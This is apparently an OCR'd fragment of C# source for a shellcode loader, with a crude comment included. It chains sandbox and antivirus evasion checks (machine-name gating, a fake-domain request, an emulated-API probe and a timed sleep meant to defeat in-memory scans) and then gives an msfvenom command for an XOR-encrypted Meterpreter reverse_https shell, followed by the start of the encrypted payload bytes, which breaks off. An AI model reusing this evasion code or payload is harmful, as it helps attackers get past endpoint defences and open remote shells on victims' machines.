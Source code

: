                 //PE name check:
                //string exename = "BasicRunner";
                //if (Path.GetFileNameWithoutExtension(Environment.GetCommandLineArgs()[0]) != exename)
                //{
                //    Console.WriteLine(Path.GetFileNameWithoutExtension(Environment.GetCommandLineArgs()[0]));
                //    return;
                //}

                //Machine name check:
                if (Environment.MachineName != "DEVELOPMENT" && Environment.MachineName != "VICTIM")
                {
                    Console.WriteLine(Environment.MachineName);
                    return;
                }

                //Web request to fake domain check:
                try
                {
                    HttpWebRequest req = (HttpWebRequest)WebRequest.Create("http://sldkfjsdkfjdskfjsldkfjlsdjfyyue.com/");
                    HttpWebResponse res = (HttpWebResponse)req.GetResponse();
                    if (res.StatusCode == HttpStatusCode.OK)
                    {
                        return;
                    }
                }
                catch (WebException we)
                {
                    Console.WriteLine("\r\nWeb Exception as Expected. Error: {0}", we.Status);
                }

                //Another emulated API check:
                IntPtr ptrCheck = FlsAlloc(IntPtr.Zero);
                if (ptrCheck == null)
                {
                    return;
                }

            // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
            var rand = new Random();
            uint dream = (uint)rand.Next(10000, 20000);
            double delta = dream / 1000 - 0.5;
            DateTime before = DateTime.Now;
            Sleep(dream);
            if (DateTime.Now.Subtract(before).TotalSeconds < delta)
            {
                Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                return;
            }

            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
            byte[] buf = new byte[644] {0x9d,0x29,0xe2,0x85,0x91,0x89,
    ........................................
